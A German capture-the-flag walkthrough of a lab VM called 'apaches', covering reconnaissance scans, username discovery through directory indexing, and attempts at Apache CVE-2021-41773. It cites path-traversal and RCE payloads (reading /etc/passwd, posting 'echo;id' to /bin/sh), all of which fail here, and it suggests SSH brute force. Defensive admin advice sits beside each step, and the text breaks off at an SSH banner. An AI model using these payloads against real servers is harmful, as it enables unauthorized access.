

192.168.2.207
Analyse: Mit `arp-scan -l` suche ich im lokalen Netzwerk nach aktiven Geräten. Die Ausgabe wird mit `grep "PCS"` gefiltert, um Geräte von "PCS Systemtechnik GmbH" zu finden, was typischerweise auf Oracle VirtualBox VMs hinweist. `awk '{print $1}'` extrahiert dann die IP-Adresse. Das Zielsystem wurde mit der IP `192.168.2.207` identifiziert.
Bewertung: Ein standardmäßiger und effizienter erster Schritt zur Host-Discovery im lokalen Netzwerk. Die IP-Adresse des Ziels ist nun bekannt.
Empfehlung (Pentester):
Als Nächstes sollte ein Portscan mit Nmap auf die gefundene IP-Adresse durchgeführt werden, um offene Ports und Dienste zu ermitteln.
Empfehlung (Admin):
Die Erkennung durch ARP-Scans ist im LAN üblich. Netzwerksegmentierung und eine aktuelle Asset-Liste können helfen, den Überblick über Geräte im Netzwerk zu behalten.
192.168.2.207 apaches.hmv
Analyse: Ich editiere die lokale `/etc/hosts`-Datei auf meinem Angreifer-System und füge den Eintrag `192.168.2.207 apaches.hmv` hinzu. Dadurch kann das Zielsystem nun über den Hostnamen `apaches.hmv` angesprochen werden.
Bewertung: Dies ist eine nützliche Vorgehensweise, um die Interaktion mit dem Ziel zu vereinfachen und um Webanwendungen korrekt anzusprechen, die auf Hostnamen basierende virtuelle Hosts verwenden könnten.
Empfehlung (Pentester):
Verwenden Sie ab jetzt `apaches.hmv` anstelle der IP-Adresse für weitere Scans und Zugriffsversuche.
Empfehlung (Admin):
Dies ist eine lokale Konfiguration auf dem Angreifer-System und hat keine direkten Auswirkungen auf das Zielsystem.
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open http Apache httpd 2.4.49 ((Unix))
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-30 23:23 CEST Nmap scan report for apaches.hmv (192.168.2.207) Host is up (0.00011s latency). Not shown: 65533 closed tcp ports (reset) PORT STATE SERVICE VERSION 22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0) | ssh-hostkey: | 3072 bc:95:83:6e:c4:62:38:b5:a9:94:0c:14:a3:bf:57:34 (RSA) | 256 07:fa:46:1a:ca:f3:dc:08:2f:72:8c:e2:f2:2e:32:e5 (ECDSA) |_ 256 46:ff:72:d5:67:c5:1f:87:b1:35:84:29:f3:ad:e8:3a (ED25519) 80/tcp open http Apache httpd 2.4.49 ((Unix)) |_http-title: Apaches | http-methods: |_ Potentially risky methods: TRACE |_http-server-header: Apache/2.4.49 (Unix) | http-robots.txt: 1 disallowed entry |_/ MAC Address: 08:00:27:B2:79:A9 (PCS Systemtechnik/Oracle VirtualBox virtual NIC) Device type: general purpose|router Running: Linux 4.X|5.X, MikroTik RouterOS 7.X OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3 OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3) Network Distance: 1 hop Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel TRACEROUTE HOP RTT ADDRESS 1 0.11 ms apaches.hmv (192.168.2.207)
Analyse: Die Nmap-Ausgabe (vermutlich mit Optionen wie `-sV -sC -A -O`) für `apaches.hmv` zeigt: - **Port 22 (SSH):** Offen, mit OpenSSH 8.2p1 Ubuntu 4ubuntu0.13. - **Port 80 (HTTP):** Offen, mit Apache httpd 2.4.49 (Unix). Der Seitentitel ist "Apaches". - **HTTP-Methoden:** Die Methode `TRACE` ist aktiviert, was als potenziell riskant eingestuft wird (Cross-Site Tracing - XST). - **robots.txt:** Enthält einen `Disallow: /`-Eintrag, der Suchmaschinen anweist, nichts zu indizieren. - **MAC-Adresse und OS:** Bestätigt VirtualBox und liefert verschiedene Linux-Signaturen, wobei "Ubuntu" durch die OpenSSH-Version am wahrscheinlichsten ist.
Bewertung: Zwei Hauptangriffsvektoren (SSH und HTTP) sind identifiziert. Die Apache-Version 2.4.49 ist bekannt für die Schwachstelle CVE-2021-41773 (Path Traversal & RCE), was sofort ins Auge sticht. Die aktivierte `TRACE`-Methode ist ebenfalls ein potenzielles, wenn auch oft weniger kritisches, Problem. Der `robots.txt`-Eintrag ist Standard, um das Crawling zu verhindern.
Empfehlung (Pentester):
Die Apache-Version 2.4.49 sollte priorisiert untersucht werden, insbesondere auf CVE-2021-41773. Überprüfen Sie den Inhalt von `robots.txt`. Führen Sie eine detailliertere Web-Enumeration durch.
Empfehlung (Admin):
Patchen Sie den Apache-Server dringend auf eine Version, die nicht für CVE-2021-41773 anfällig ist (mindestens 2.4.51). Deaktivieren Sie die `TRACE`-Methode in der Apache-Konfiguration (`TraceEnable Off`). Stellen Sie sicher, dass `robots.txt` keine sensiblen Pfade preisgibt, auch wenn es hier generisch ist.
* Trying 192.168.2.207:80...
* Connected to 192.168.2.207 (192.168.2.207) port 80
* using HTTP/1.x
> HEAD / HTTP/1.1
> Host: 192.168.2.207
> User-Agent: curl/8.13.0
> Accept: */*
>
* Request completely sent off
< HTTP/1.1 200 OK
< Date: Fri, 30 May 2025 21:24:21 GMT
< Server: Apache/2.4.49 (Unix)
< Last-Modified: Wed, 05 Oct 2022 12:43:46 GMT
< ETag: "8494-5ea48ed758480"
< Accept-Ranges: bytes
< Content-Length: 33940
< Content-Type: text/html
<
* Connection #0 to host 192.168.2.207 left intact
Allow: GET,POST,OPTIONS,HEAD,TRACE
Analyse: Eine `HEAD`-Anfrage mit `curl` an die Wurzel des Webservers bestätigt die Apache-Version 2.4.49 und zeigt die erlaubten HTTP-Methoden, einschließlich `TRACE`. Der `Content-Length` von 33940 Bytes gibt die Größe der Hauptseite an.
Bewertung: Diese Ausgabe bestätigt die Nmap-Ergebnisse und unterstreicht die Relevanz der Apache-Version und der aktivierten `TRACE`-Methode.
Empfehlung (Pentester):
Fahren Sie mit der Web-Enumeration und der Untersuchung der bekannten Apache-Schwachstelle fort.
Empfehlung (Admin):
Siehe vorherige Empfehlungen zum Patchen von Apache und Deaktivieren von `TRACE`.
- Nikto v2.5.0 --------------------------------------------------------------------------- + Target IP: 192.168.2.207 + Target Hostname: 192.168.2.207 + Target Port: 80 + Start Time: 2025-05-30 23:24:23 (GMT2) --------------------------------------------------------------------------- + Server: Apache/2.4.49 (Unix) + /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options + /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/ + /images: IP address found in the 'location' header. The IP is "127.0.1.1". See: https://portswigger.net/kb/issues/00600300_private-ip-addresses-disclosed + /images: The web server may reveal its internal or real IP in the Location header via a request to with HTTP/1.0. The value is "127.0.1.1". See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2000-0649 + Apache/2.4.49 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch. + OPTIONS: Allowed HTTP Methods: GET, POST, OPTIONS, HEAD, TRACE . + /: HTTP TRACE method is active which suggests the host is vulnerable to XST. See: https://owasp.org/www-community/attacks/Cross_Site_Tracing + /css/: Directory indexing found. + /css/: This might be interesting. + /images/: Directory indexing found. + 8909 requests: 0 error(s) and 10 item(s) reported on remote host + End Time: 2025-05-30 23:24:43 (GMT2) (20 seconds) --------------------------------------------------------------------------- + 1 host(s) tested
Analyse: Ein `nikto`-Scan auf Port 80 liefert mehrere interessante Ergebnisse: - Bestätigung der veralteten Apache-Version 2.4.49. - Fehlende Sicherheitsheader (`X-Frame-Options`, `X-Content-Type-Options`). - Preisgabe einer internen IP-Adresse (`127.0.1.1`) im `Location`-Header bei Anfragen an `/images` (CVE-2000-0649). - Aktive `TRACE`-Methode (potenziell XST). - Directory Indexing für die Verzeichnisse `/css/` und `/images/`.
Bewertung: Nikto bestätigt die Verwundbarkeit durch die veraltete Apache-Version und die aktive `TRACE`-Methode. Das Directory Indexing ist ebenfalls ein wichtiger Fund, da es das direkte Auflisten von Dateiinhalten in diesen Verzeichnissen ermöglicht. Das IP-Leak ist von geringerer Bedeutung, da wir bereits im lokalen Netz sind, kann aber in anderen Szenarien relevant sein.
Empfehlung (Pentester):
Untersuchen Sie die Verzeichnisse `/css/` und `/images/` manuell im Browser, um deren Inhalte zu sichten. Priorisieren Sie weiterhin die Ausnutzung von CVE-2021-41773.
Empfehlung (Admin):
Zusätzlich zu den bereits genannten Maßnahmen (Apache patchen, TRACE deaktivieren): Deaktivieren Sie Directory Indexing in der Apache-Konfiguration (z.B. `Options -Indexes`), es sei denn, es ist explizit erwünscht. Beheben Sie das IP-Leak im Location-Header, falls relevant. Implementieren Sie die fehlenden Sicherheitsheader.
=============================================================== Gobuster v3.6 by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart) =============================================================== [+] Url: http://192.168.2.207 [+] Method: GET [+] Threads: 10 [+] Wordlist: /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt [+] Negative Status codes: 503,404,403 [+] User Agent: gobuster/3.6 [+] Extensions: xls,docx,csv,phtml,csh,accdb,py,raw,xlsx,exp,php,ln,rar,html,pdf,pem,ELF,eps,pl,rtf,crt,deb,pHtml,zip,pub,c,diff,icon,txt,tar,png,rpm,conf,doc,db,asp,exe,json,elf,old,jpeg,kdbx,svg,java,config,desc,js.map,aspx,ps1,gz,mod,sh,xml,dll,bak,lib,bat,cgi,sql,mdb,jpg [+] Expanded: true [+] Timeout: 10s =============================================================== Starting gobuster in directory enumeration mode =============================================================== http://192.168.2.207/index.html (Status: 200) [Size: 33940] http://192.168.2.207/images (Status: 301) [Size: 236] [--> http://192.168.2.207/images/] http://192.168.2.207/css (Status: 301) [Size: 233] [--> http://192.168.2.207/css/] http://192.168.2.207/js (Status: 301) [Size: 232] [--> http://192.168.2.207/js/] http://192.168.2.207/robots.txt (Status: 200) [Size: 116] http://192.168.2.207/fonts (Status: 301) [Size: 235] [--> http://192.168.2.207/fonts/]
Analyse: Ein `gobuster`-Scan im Directory-Enumeration-Modus mit einer breiten Palette von Erweiterungen findet die Standardverzeichnisse (`/images`, `/css`, `/js`, `/fonts`) und Dateien (`index.html`, `robots.txt`), die für eine typische Webseite üblich sind. Es wurden keine unerwarteten oder versteckten Verzeichnisse oder Dateien gefunden.
Bewertung: Der Gobuster-Scan bestätigt die von Nikto gefundenen Verzeichnisse, die Directory Indexing aktiviert haben (was die Status 301 zu den Verzeichnissen mit Trailing Slash erklärt). Er liefert keine neuen, kritischen Pfade, die nicht bereits bekannt oder erwartet waren.
Empfehlung (Pentester):
Da `gobuster` keine neuen sensitiven Pfade aufgedeckt hat, liegt der Fokus weiterhin auf den bereits identifizierten Schwachstellen und Verzeichnissen (insbesondere `robots.txt` und die Verzeichnisse mit Directory Indexing).
Empfehlung (Admin):
Siehe Empfehlungen zur Deaktivierung von Directory Indexing. Stellen Sie sicher, dass keine unnötigen Dateien oder Verzeichnisse im Web-Root liegen.
Browser: http://192.168.2.207/robots.txt
User-agent: *
Disallow: /
# IOKAnFlvdSBrbm93IHlvdXIgcGF0aCwgY2hpbGQsIG5vdyBmb2xsb3cgaXQu4oCdCi0tIFBvY2Fob250YXMg
https://www.base64decode.org/
“You know your path, child, now follow it.”
-- Pocahontas
Analyse: Der Inhalt der Datei `http://192.168.2.207/robots.txt` wird angezeigt. Neben dem Standard `Disallow: /`-Eintrag enthält sie einen Kommentar mit einem Base64-kodierten String: `IOKAnFlvdSBrbm93IHlvdXIgcGF0aCwgY2hpbGQsIG5vdyBmb2xsb3cgaXQu4oCdCi0tIFBvY2Fob250YXMg`. Die Dekodierung dieses Base64-Strings ergibt das Zitat: "“You know your path, child, now follow it.” -- Pocahontas".
Bewertung: Der Base64-String ist ein Hinweis (CTF-typisch). Das Zitat von Pocahontas, kombiniert mit den Benutzernamen, die später im Verzeichnis `/images/team/` gefunden werden (geronimo, pocahontas, sacagawea, squanto), deutet darauf hin, dass "Pocahontas" ein relevanter Benutzername sein könnte. Der Hinweis "You know your path, child, now follow it" könnte sich auf die Ausnutzung der Apache Path Traversal Schwachstelle beziehen.
Empfehlung (Pentester):
Behalten Sie den Benutzernamen "pocahontas" im Hinterkopf für mögliche SSH-Login-Versuche oder als Kontext für andere gefundene Informationen. Verfolgen Sie die Spur der Path Traversal Schwachstelle (CVE-2021-41773).
Empfehlung (Admin):
Vermeiden Sie es, Hinweise oder potenziell nützliche Informationen für Angreifer in `robots.txt`-Dateien oder anderen öffentlich zugänglichen Konfigurationsdateien zu hinterlassen.
Polygon Template
[Link: Polygon Template | Ziel: https://templatemo.com/tm-400-polygon]
Photo by Danie Franco on Unsplash (1.jpg)
Photo by Zeke Tucker on Unsplash (2.jpg)
Photo by Stéfano Girardelli on Unsplash (3.jpg)
Photo by MJ Tangonan on Unsplash (4.jpg)
Photo by Cayetano Gil on Unsplash (5.jpg)
Photo by Jaime Handley on Unsplash (6.jpg)
Photo by Andrew James on Unsplash (7.jpg)
Photo by Robert Murray on Unsplash (8.jpg)
Photo by Hamid Tajik on Unsplash (9.jpg)
Photo by Andreas Dress on Unsplash (10.jpg)
Photo by Scott Warman on Unsplash (11.jpg)
Photo by Taylor Brandon on Unsplash (12.jpg)
Photo by Artem Maltsev on Unsplash (13.jpg)
Photo by Xiang Gao on Unsplash (14.jpg)
Photo by Matthew Pablico on Unsplash (15.jpg)
Photo by Dan Cutler on Unsplash (16.jpg)
Photo by Joseph Hersh on Unsplash (17.jpg)
Photo by Timothy Eberly on Unsplash (18.jpg)
Photo by Boston Public Library on Unsplash (team photos 1.jpg, 2.jpg, 3.jpg, 4.jpg)
Analyse: Das Bild `auskommentierte_bilder.jpg` und der darauf folgende Textblock zeigen auskommentierte HTML-Links oder Referenzen zu Bildern im Quellcode der Hauptseite (`index.html`). Diese Referenzen nennen die Bilddateinamen (z.B. `1.jpg`, `2.jpg`, `team/1.jpg`) und die Fotografen von Unsplash. Dies deutet darauf hin, dass die Webseite ein Template verwendet ("Polygon Template" von templatemo.com) und Bilder von Unsplash einbindet.
Bewertung: Diese Informationen sind primär für das Verständnis des Webseitenaufbaus relevant. Die Dateinamen der Bilder, insbesondere die im Unterverzeichnis `team/`, könnten auf die Existenz dieses Verzeichnisses hinweisen, was durch den `nikto`-Scan (Directory Indexing auf `/images/`) und den `gobuster`-Scan (`http://192.168.2.207/images` leitet weiter zu `/images/`) bereits angedeutet wurde. Die Namen der Fotografen sind für den Pentest selbst wahrscheinlich nicht direkt relevant.
Empfehlung (Pentester):
Untersuchen Sie das Verzeichnis `/images/team/` im Browser, da Nikto und Gobuster auf Directory Indexing für `/images/` hingewiesen haben. Dort könnten potenziell interessante Dateien oder weitere Hinweise (z.B. Benutzernamen durch Bildunterschriften oder Dateinamen) zu finden sein.
Empfehlung (Admin):
Entfernen Sie auskommentierten Code, der nicht mehr benötigt wird oder versehentlich interne Strukturen oder Dateinamen preisgibt, aus Produktiv-Webseiten.
Apache 2.4.49 – Path Traversal & RCE (CVE-2021-41773)
Die Version 2.4.49 ist anfällig für Path Traversal → RCE.
<h3>Not Found</h3>
<p>The requested URL was not found on this server.</p>
<h3>Not Found</h3>
<p>The requested URL was not found on this server.</p>
Analyse: Hier wird explizit auf die Schwachstelle CVE-2021-41773 in Apache 2.4.49 hingewiesen, die Path Traversal und unter bestimmten Umständen Remote Code Execution (RCE) ermöglicht. Es werden zwei `curl`-Befehle gezeigt, die versuchen, diese Schwachstelle auszunutzen: 1. `curl -s "http://192.168.2.207/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"`: Versuch, mittels Path Traversal (`.%2e/` ist URL-kodiert für `./`) die Datei `/etc/passwd` auszulesen. 2. `curl -X POST "http://192.168.2.207/cgi-bin/.%2e/%2e%2e/%2e%2e/bin/sh" -d "echo;id"`: Versuch, RCE zu erlangen, indem `/bin/sh` aufgerufen und der Befehl `id` ausgeführt wird. Beide Versuche resultieren in einer "Not Found"-Fehlermeldung vom Server.
Bewertung: Obwohl Apache 2.4.49 grundsätzlich für CVE-2021-41773 anfällig ist, schlagen diese spezifischen Exploit-Versuche fehl. Die Schwachstelle erfordert bestimmte Konfigurationen auf dem Apache-Server, damit sie ausnutzbar ist (z.B. `cgi-bin` muss aktiviert sein und Skripte außerhalb des DocumentRoot müssen erlaubt sein, oder `Require all denied` darf nicht für alle relevanten Pfade gesetzt sein). Die "Not Found"-Meldung deutet darauf hin, dass entweder der Pfad `/cgi-bin/` nicht wie erwartet existiert oder die Konfiguration die Ausnutzung in dieser Form nicht zulässt.
Empfehlung (Pentester):
Die Standard-Exploits für CVE-2021-41773 scheinen hier nicht direkt zu funktionieren. Es könnte sein, dass `mod_cgi` nicht aktiviert ist oder die Konfiguration die Ausnutzung verhindert. Es ist dennoch wichtig, die Apache-Version im Hinterkopf zu behalten. Da diese direkten Versuche scheitern, müssen andere Angriffsvektoren weiterverfolgt werden. Es ist auch möglich, dass die URL-Kodierung oder die Anzahl der Traversal-Sequenzen angepasst werden muss, oder dass ein anderer Basispfad als `/cgi-bin/` verwendet werden muss, falls ein anderer CGI-fähiger Pfad existiert.
Empfehlung (Admin):
Auch wenn die direkten Exploit-Versuche hier scheitern, ist das Patchen der Apache-Version 2.4.49 auf mindestens 2.4.51 (oder neuer) unerlässlich, um die Anfälligkeit für CVE-2021-41773 und die damit zusammenhängende CVE-2021-42013 (eine unvollständige Behebung der ersten) vollständig zu schließen. Stellen Sie sicher, dass `mod_cgi` nur aktiviert ist, wenn es benötigt wird, und dass die Berechtigungen für CGI-Skripte restriktiv sind.
Wappalyzer
Schrift Script
Font Awesome
Google Font API
Web Server
Apache HTTP Server 2.4.49
Betriebssysteme
UNIX
JavaScript Bibliotheken
jQuery 1.10.2
Something wrong or missing?
Analyse: Diese Ausgabe stammt von Wappalyzer, einem Tool zur Technologieerkennung auf Webseiten. Es identifiziert: - Schriftarten (Font Awesome, Google Font API). - Webserver: Apache HTTP Server 2.4.49. - Betriebssystem: UNIX (eine generische Angabe, die mit Linux übereinstimmt). - JavaScript-Bibliothek: jQuery 1.10.2.
Bewertung: Wappalyzer bestätigt die bereits bekannte Apache-Version. Die Identifizierung von jQuery 1.10.2 ist eine neue Information. Diese jQuery-Version ist sehr alt (veröffentlicht ca. 2013) und hat bekannte Schwachstellen (z.B. Cross-Site Scripting - XSS).
Empfehlung (Pentester):
Prüfen Sie, ob die Webseite clientseitige Schwachstellen aufgrund der veralteten jQuery-Version aufweist. Suchen Sie nach XSS-Vektoren. Obwohl clientseitige Schwachstellen oft nicht direkt zu Serverkompromittierung führen, können sie in bestimmten Szenarien (z.B. Diebstahl von Admin-Session-Cookies) nützlich sein.
Empfehlung (Admin):
Aktualisieren Sie die verwendete jQuery-Bibliothek auf eine aktuelle, sichere Version, um bekannte Schwachstellen zu vermeiden.
http://192.168.2.207/images/team/
Index of /images/team
Parent Directory
1.jpg
2.jpg
3.jpg
4.jpg
geronimo
pocahontas
sacagawea
squanto
Analyse: Durch das von Nikto und Gobuster gemeldete Directory Indexing navigiere ich zum Verzeichnis `http://192.168.2.207/images/team/`. Die Auflistung zeigt neben den Bilddateien `1.jpg` bis `4.jpg` vier weitere Einträge ohne Dateiendung: `geronimo`, `pocahontas`, `sacagawea` und `squanto`. Da es sich um ein Bilderverzeichnis für ein "Team" handelt, ist es sehr wahrscheinlich, dass dies Benutzernamen oder zumindest Namen sind, die mit Benutzern auf dem System in Verbindung stehen könnten.
Bewertung: Dies ist ein sehr wertvoller Fund! Die Namen `geronimo`, `pocahontas`, `sacagawea` und `squanto` sind potenzielle Benutzernamen für SSH-Logins oder andere Dienste. Der Name "pocahontas" wurde bereits durch den Hinweis in `robots.txt` angedeutet.
Empfehlung (Pentester):
Verwenden Sie diese Namen als Kandidaten für Benutzernamen bei SSH-Brute-Force-Versuchen (z.B. mit Hydra). Behalten Sie sie auch für andere Kontexte im Auge (z.B. wenn Passwörter gefunden werden, könnten sie zu einem dieser Benutzer gehören).
Empfehlung (Admin):
Deaktivieren Sie Directory Indexing auf dem Webserver, um das Auflisten von Verzeichnisinhalten zu verhindern. Benennen Sie Dateien und Verzeichnisse so, dass sie keine direkten Rückschlüsse auf Benutzernamen oder interne Strukturen zulassen, falls sie versehentlich exponiert werden.
___ ___ __ __ __ __ __ ___ |__ |__ |__) |__) | / ` / \ \_/ | | \ |__ | |___ | \ | \ | \__, \__/ / \ | |__/ |___ by Ben "epi" Risher 🤓 ver: 2.11.0 ───────────────────────────┬────────────────────── 🎯 Target Url │ http://192.168.2.207 🚀 Threads │ 50 📖 Wordlist │ /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 👌 Status Codes │ [200, 301, 302] 💥 Timeout (secs) │ 7 🦡 User-Agent │ feroxbuster/2.11.0 💉 Config File │ /etc/feroxbuster/ferox-config.toml 🔎 Extract Links │ true 💲 Extensions │ [git, php, html, xml, zip, 7z, tar, bak, sql, py, pl, txt, jpg, jpeg, png, js, aac, ogg, flac, alac, wav, aiff, dsd, mp3, mp4, mkv, phtml] 🏁 HTTP methods │ [GET] 🔃 Recursion Depth │ 4 ───────────────────────────┴────────────────────── 🏁 Press [ENTER] to use the Scan Management Menu™ ────────────────────────────────────────────────── 301 GET 7l 20w 236c http://192.168.2.207/images => http://192.168.2.207/images/ 200 GET 219l 574w 8047c http://192.168.2.207/js/jquery.lightbox.js 200 GET 109l 206w 3869c http://192.168.2.207/js/templatemo_custom.js 200 GET 8l 125w 10334c http://192.168.2.207/images/templatemo_contactiframe.png 200 GET 39l 229w 15678c http://192.168.2.207/images/logo.png ... (Ausgabe stark gekürzt) ... 200 GET 15382l 92596w 6516175c http://192.168.2.207/images/team/1.jpg 200 GET 14366l 81766w 5562155c http://192.168.2.207/images/team/4.jpg 200 GET 22230l 122247w 9201177c http://192.168.2.207/images/gallery/11.jpg 200 GET 785l 1981w 33940c http://192.168.2.207/index.html 301 GET 7l 20w 233c http://192.168.2.207/css => http://192.168.2.207/css/ 301 GET 7l 20w 232c http://192.168.2.207/js => http://192.168.2.207/js/ 200 GET 4l 6w 116c http://192.168.2.207/robots.txt [####################] - 7m 6177808/6177808 0s found:54 errors:40 [####################] - 7m 6175260/6175260 14971/s http://192.168.2.207/ [####################] - 0s 6175260/6175260 70173409/s http://192.168.2.207/images/ => Directory listing (add --scan-dir-listings to scan) [####################] - 0s 6175260/6175260 15098435/s http://192.168.2.207/images/team/ => Directory listing (add --scan-dir-listings to scan) [####################] - 1s 6175260/6175260 10683841/s http://192.168.2.207/images/gallery/ => Directory listing (add --scan-dir-listings to scan) [####################] - 0s 6175260/6175260 228713333/s http://192.168.2.207/css/ => Directory listing (add --scan-dir-listings to scan) [####################] - 0s 6175260/6175260 686140000/s http://192.168.2.207/js/ => Directory listing (add --scan-dir-listings to scan) [####################] - 0s 6175260/6175260 411684000/s http://192.168.2.207/fonts/ => Directory listing (add --scan-dir-listings to scan)
Analyse: Ein erneuter, diesmal vollständiger `feroxbuster`-Scan (7 Minuten Laufzeit) wird durchgeführt. Er listet viele Dateien auf, hauptsächlich Bilder und JavaScript-Dateien aus den bekannten Verzeichnissen (`/images`, `/js`, `/css`, `/fonts`). Am Ende des Scans wird explizit darauf hingewiesen, dass für mehrere Verzeichnisse Directory Listing aktiv ist und man die Option `--scan-dir-listings` verwenden könnte, um diese direkt zu scannen (obwohl die Inhalte oft schon durch das normale Brute-Forcing gefunden werden, wenn sie gängige Namen haben).
Bewertung: Dieser vollständige Scan bestätigt die Struktur der Webseite und die Existenz der Bild- und Skriptdateien. Er deckt keine neuen, versteckten Applikationspfade oder kritischen Dateien auf, die nicht schon durch frühere, kürzere Scans oder manuelle Inspektion der indizierten Verzeichnisse ersichtlich waren. Die Hinweise auf Directory Listing sind eine Bestätigung der Nikto-Funde.
Empfehlung (Pentester):
Da dieser Scan keine neuen Angriffsvektoren aufzeigt, ist es sinnvoll, sich auf die bereits bekannten Informationen zu konzentrieren: die potenzielle Apache-Schwachstelle und die gefundenen Benutzernamen.
Empfehlung (Admin):
Directory Listing sollte deaktiviert werden. Überprüfen Sie, ob alle aufgelisteten Dateien tatsächlich öffentlich zugänglich sein müssen.
<h1>Internal Server Error</h1>
<p>The server encountered an internal error or
misconfiguration and was unable to complete
your request.</p>
<p>Please contact the server administrator at
you@example.com to inform them of the time this error occurred,
and the actions you performed just before this error.</p>
<p>More information about this error may be available
in the server error log.</p>
Analyse: Ein weiterer Versuch, die Apache Path Traversal Schwachstelle CVE-2021-41773 auszunutzen. Diesmal wird eine andere URL-Kodierung für den Punkt (`.`) verwendet: `%%32%65` (doppelte URL-Kodierung von `.`, wobei `%2e` zu `.` wird und dann `.` zu `%2e` kodiert wird, und hier `.` zu `%252e` und dann `%25` zu `%` etc. – dies ist eine komplexere Kodierungsvariante). Das Ergebnis ist ein "500 Internal Server Error".
Bewertung: Ein "Internal Server Error" ist oft ein Zeichen dafür, dass die Anfrage den Server erreicht hat und eine Art von Fehler bei der Verarbeitung ausgelöst hat, aber nicht unbedingt, dass die Schwachstelle erfolgreich ausgenutzt wurde oder der angeforderte Pfad korrekt war. Es ist eine andere Reaktion als das vorherige "Not Found", was darauf hindeuten könnte, dass die veränderte Kodierung die Web Application Firewall (WAF) oder die Pfadnormalisierung des Servers anders beeinflusst hat. Es ist jedoch kein direkter Beweis für eine erfolgreiche Path Traversal.
Empfehlung (Pentester):
Der "Internal Server Error" könnte auf eine Fehlkonfiguration oder eine andere Art von Problem hindeuten. Ohne Zugriff auf die Server-Error-Logs ist es schwierig, die genaue Ursache zu bestimmen. Da der Exploit für CVE-2021-41773 als Bash-Skript verfügbar ist (siehe spätere Schritte), ist es oft effizienter, diesen zu verwenden, da er verschiedene Payloads und Konfigurationen testen kann.
Empfehlung (Admin):
Untersuchen Sie die Apache-Error-Logs, um die Ursache für den "500 Internal Server Error" zu finden. Dies kann helfen, Fehlkonfigurationen oder fehlgeschlagene Angriffsversuche zu identifizieren. Patchen Sie die Apache-Version, um die zugrundeliegende Schwachstelle zu beheben.
The authenticity of host '192.168.2.207 (192.168.2.207)' can't be established. ED25519 key fingerprint is SHA256:Rh8fFW5oIyfLABNlGvG850s8cm8NdtrTuTNfdvGyMuY. This key is not known by any other names. Are you sure you want to continue connecting (yes/no/[fingerprint])? yes Warning: Permanently added '192.168.2.207' (ED25519) to the list of known hosts. >> >======> >> >=> >=> >=> >=======> >=>>=> >>=> >=> >=> >>=> >=> >=> >=> >=> >=> >=> >=> >> >=> >=> >=> >> >=> >=> >=> >=> >=> >=> ~ >=> >=> >======> >=> >=> >=> >=====>>=> >=====> >=> 7~ ~&. >=====>>=> >=> >=====>>=> >=> >=> >=> >=> >=> G!J !75! ~G : >=> >=> >=> >=> >=> >=> >=> >=> >=> >=> >=> >=> ?~:B!. 5Y^!~^B. :~J& >=> >=> >=> >=> >=> >===> >=> >=> >=======> >=>>=> .GG?~ B^...PB?!^ ?5 . 7&G: 7. JB7?7^.. ^&P&Y .7# If at first you don't succeed. Try, try again! Sometimes the second time returns more! .GG. ~J. ?@5: :~. Y@@@@??!?# :#~ ~Y~ JJ :77: .J&@#57: :&!.~Y .: :&. ^P7 